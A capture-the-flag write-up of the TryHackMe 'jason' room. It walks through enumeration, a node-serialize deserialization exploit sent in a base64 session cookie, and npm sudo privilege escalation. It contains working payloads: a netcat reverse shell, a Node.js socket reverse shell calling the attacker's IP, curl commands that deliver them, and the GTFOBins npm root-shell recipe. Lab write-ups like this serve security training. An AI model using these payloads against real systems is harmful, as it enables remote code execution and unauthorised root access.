

# `jason`

### https://tryhackme.com/room/jason
### Hein Andre Grønnestad
### 2021-10-09

---

## NMAP Summary
```
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack
```

## GoBuster

Nothing interesting and the web server responds to all paths anyway. I used `--exclude-length 3559,3534` to filter out the default response lengths, but still no luck after ~48%.

```
$ gobuster dir --wordlist /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --url 10.10.171.154 --exclude-length 3559,3534
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.171.154
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          3559,3534
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/09 16:32:13 Starting gobuster in directory enumeration mode
===============================================================
Progress: 106464 / 220561 (48.27%)^C
[!] Keyboard interrupt detected, terminating.

===============================================================
2021/10/09 16:40:33 Finished
===============================================================
```

## Browsing website

http://10.10.171.154/

The website has a "keep me updated on..."-form where we can submit an email address. Looking at the source code we see this javascript:

```js
<script>
document.getElementById("signup").addEventListener("click", function() {
var date = new Date();
    date.setTime(date.getTime()+(-1*24*60*60*1000));
    var expires = "; expires="+date.toGMTString();
    document.cookie = "session=foobar"+expires+"; path=/";
    const Http = new XMLHttpRequest();
    console.log(location);
    const url=window.location.href+"?email="+document.getElementById("fname").value;
    Http.open("POST", url);
    Http.send();
setTimeout(function() {
    window.location.reload();
}, 500);
}); 
</script>
```

The form is posted to `http://10.10.171.154/?email={email_input}`. After submitting the form with the email: `dd@dd.dd` we can see that a cookie has been set. The cookie is: `session: eyJlbWFpbCI6ImRkQGRkLmRkIn0=`.

The base64 encoded data in the cookie is:

```bash
$ echo eyJlbWFpbCI6ImRkQGRkLmRkIn0= | base64 -d
{"email":"dd@dd.dd"}
```

The website says:
> `We'll keep you updated at: dd@dd.dd`.

And:

> Built with Nodejs

By now this is all we have to go on, so we can only hope that there is some `node.js` or `npm`-package exploit we can trigger by manipulating the contents of the `session`-cookie.


## PoC RCE

Let's try to get RCE through the `session`-cookie. Let's change our payload:

```json
{ "email": function() { return 2+2; } }
```

Here we set the the `email` field to a `function`. If we can trick the server into running our function and returning `4` we know that we have gained remote code execution.

My hope is that the server side code is using the `unserialize`-function. This function can be used to gain remote code execution. (This can later be confirmed by looking at `from_target/server.js` which we ultimately exfiltrated from the server).

Anyway; there are a couple of things we need to do to prime our payload. We need to use the `serialize`-function to serialize the payload since we think it's going to be unserialized on the server side.

```js
$ node
Welcome to Node.js v12.21.0.
Type ".help" for more information.

> serialize = require('node-serialize');
{ serialize: [Function], unserialize: [Function] }

> serialize.serialize({"email": function() { return 2+2; }})

'{"email":"_$$ND_FUNC$$_function() { return 2+2; }"}'
```

We can now see that our payload is:

```json
{"email":"_$$ND_FUNC$$_function() { return 2+2; }"}
```

Using this payload is not going to work unless there is something on the server that actually executes our function. But, we can actually force the server to execute our function by making it a self-invoking function. We can do that by adding `()` after the function declaration. Like this:

```json
{"email": "_$$ND_FUNC$$_function() { return 2+2; }()"}
```

Now all we have to do is encode the payload using `base64`:

```bash
$ echo '{"email": "_$$ND_FUNC$$_function() { return 2+2; }()"}' | base64
eyJlbWFpbCI6ICJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKSB7IHJldHVybiAyKzI7IH0oKSJ9Cg==
```

And set up our `curl`-command (copied from Firefox dev tools):

### PoC `curl`-command to trigger RCE
```bash
$ curl 'http://10.10.171.154/' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:93.0) Gecko/20100101 Firefox/93.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: nb-NO,nb;q=0.9,no-NO;q=0.8,no;q=0.6,nn-NO;q=0.5,nn;q=0.4,en-US;q=0.3,en;q=0.1' --compressed -H 'Connection: keep-alive' -H 'Cookie: session=eyJlbWFpbCI6ICJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKSB7IHJldHVybiAyKzI7IH0oKSJ9Cg==' -H 'Upgrade-Insecure-Requests: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache'
```



> We'll keep you updated at: 4

## *We have remote code execution!*


## Reverse Shell

I spent a good amount of time on this part. I had trouble getting a reverse shell callback and I wasn't sure if the problem was with the payload itself, the payload not being encoded correctly or if the payload was using packages that weren't available on the server.

I tried multiple things and many iterations. I tried reverse shells and other techniques, like trying to exfiltrate command output and files using a HTTP-request to my own server.

The way the server side code works, it's hard to get command output sent to the webpage, at least when using callbacks from `require('child_process').exec` and similar. As far as I know anyway.

I started by using this payload:

```json
{"email": "_$$ND_FUNC$$_function() { require('child_process').exec('nc -e /bin/sh 10.11.31.199 9999') }()"}
```

I verified the payload on my local machine:

Trying to unserialize the payload locally:

```js
$ node
Welcome to Node.js v12.21.0.
Type ".help" for more information.

> serialize = require('node-serialize');
{ serialize: [Function], unserialize: [Function] }

> serialize.unserialize({"email": "_$$ND_FUNC$$_function() { require('child_process').exec('nc -e /bin/sh 10.11.31.199 9999') }()"});
{ email: undefined }
>
```

Catching the reverse shell:

```bash
$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.11.31.199] from (UNKNOWN) [10.11.31.199] 44208

lsb_release -a
Distributor ID: Kali
Description:    Kali GNU/Linux Rolling
Release:        2021.1
Codename:       kali-rolling
```

I spent some time making sure everything looked ok, but didn't get it to work. I guess the target didn't have `netcat` installed or something.

Then I finally ended up trying another reverse shell payload:

```js
(function() {
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    
    var client = new net.Socket();

    client.connect(9999, "10.11.31.199", function() {
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });

    return /a/;
})();
```


## Working reverse shell payload

I removed all the whitespace and serialized the new payload:

```js
> serialize.serialize({"email": function(){ var net = require('net'), cp = require('child_process'), sh = cp.spawn('/bin/sh', []); var client = new net.Socket(); client.connect(9999, '10.11.31.199', function() { client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; }});

`{"email":"_$$ND_FUNC$$_function(){ var net = require('net'), cp = require('child_process'), sh = cp.spawn('/bin/sh', []); var client = new net.Socket(); client.connect(9999, '10.11.31.199', function() { client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; }"}`
>
```

Then we just add `()` again to make it a self-invoking function.

```json
{"email":"_$$ND_FUNC$$_function(){ var net = require('net'), cp = require('child_process'), sh = cp.spawn('/bin/sh', []); var client = new net.Socket(); client.connect(9999, '10.11.31.199', function() { client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; }()"}
```

Base64 encode the new payload:

```
eyJlbWFpbCI6ICJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKXsgdmFyIG5ldCA9IHJlcXVpcmUoJ25ldCcpLCBjcCA9IHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKSwgc2ggPSBjcC5zcGF3bignL2Jpbi9zaCcsIFtdKTsgdmFyIGNsaWVudCA9IG5ldyBuZXQuU29ja2V0KCk7IGNsaWVudC5jb25uZWN0KDk5OTksICcxMC4xMS4zMS4xOTknLCBmdW5jdGlvbigpIHsgY2xpZW50LnBpcGUoc2guc3RkaW4pOyBzaC5zdGRvdXQucGlwZShjbGllbnQpOyBzaC5zdGRlcnIucGlwZShjbGllbnQpOyB9KTsgcmV0dXJuIC9hLzsgfSgpIn0KCg==
```

Put it inside the `curl`-command from before:

```bash
curl 'http://10.10.171.154/' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:93.0) Gecko/20100101 Firefox/93.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: nb-NO,nb;q=0.9,no-NO;q=0.8,no;q=0.6,nn-NO;q=0.5,nn;q=0.4,en-US;q=0.3,en;q=0.1' --compressed -H 'Connection: keep-alive' -H 'Cookie: session=eyJlbWFpbCI6ICJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKXsgdmFyIG5ldCA9IHJlcXVpcmUoJ25ldCcpLCBjcCA9IHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKSwgc2ggPSBjcC5zcGF3bignL2Jpbi9zaCcsIFtdKTsgdmFyIGNsaWVudCA9IG5ldyBuZXQuU29ja2V0KCk7IGNsaWVudC5jb25uZWN0KDk5OTksICcxMC4xMS4zMS4xOTknLCBmdW5jdGlvbigpIHsgY2xpZW50LnBpcGUoc2guc3RkaW4pOyBzaC5zdGRvdXQucGlwZShjbGllbnQpOyBzaC5zdGRlcnIucGlwZShjbGllbnQpOyB9KTsgcmV0dXJuIC9hLzsgfSgpIn0KCg==' -H 'Upgrade-Insecure-Requests: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache'
```

Finally we get the reverse shell:

```bash
$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.11.31.199] from (UNKNOWN) [10.10.171.154] 34254
ls
index.html
node_modules
package.json
package-lock.json
server.js

whoami
dylan
```

## User Flag

```bash
cd /home
ls
dylan
cd dylan
ls
user.txt

cat user.txt
0b****************************7c
```

## Dumping Web App Files

```js
cat server.js
var http = require('http')
var fs = require('fs');
// abbreviated ...
```

I dumped all the files, they can be found in the `from_target` folder.


## PrivEsc

```bash
whoami
dylan

sudo -l
Matching Defaults entries for dylan on jason:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
```

We can run `npm` with `sudo`. Let's have a look at https://gtfobins.github.io/gtfobins/npm/.

```
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i
```

Let's try this payload on our target.

```bash
whoami
dylan

TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i

> @ preinstall /tmp/tmp.yF3oZgvQyI
> /bin/sh

whoami
root
```

## Root Flag

```
cat /root/root.txt
2c****************************0e
```
